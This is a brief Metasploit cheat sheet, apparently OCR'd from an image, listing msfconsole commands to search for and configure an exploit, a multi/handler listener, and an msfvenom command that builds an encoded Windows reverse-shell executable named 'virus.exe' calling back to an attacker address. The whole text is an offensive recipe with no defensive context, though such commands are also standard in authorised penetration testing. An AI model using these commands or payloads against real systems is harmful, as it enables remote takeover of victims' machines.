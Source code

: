 #start metasploit :
/opt/metasploit-framework/bin/msfconsole

#search for exploit :
search exploitname

#show what option need to be filled :
show options

#set the options :
set RHOSTS 10.0.0.0

#set the lhost :
set LHOST 10.1.0.25

#creating netcat listener :
use exploit/multi/handler
set LHOST 10.9.1.25
set LPORT 1337
exploit -j

Creating Windows Payload :
msfvenom -p windows/shell_reverse_tcp LHOST=10.9.1.25 LPORT=1337 -e x86/shikata_ga_nai -f exe -o virus.exe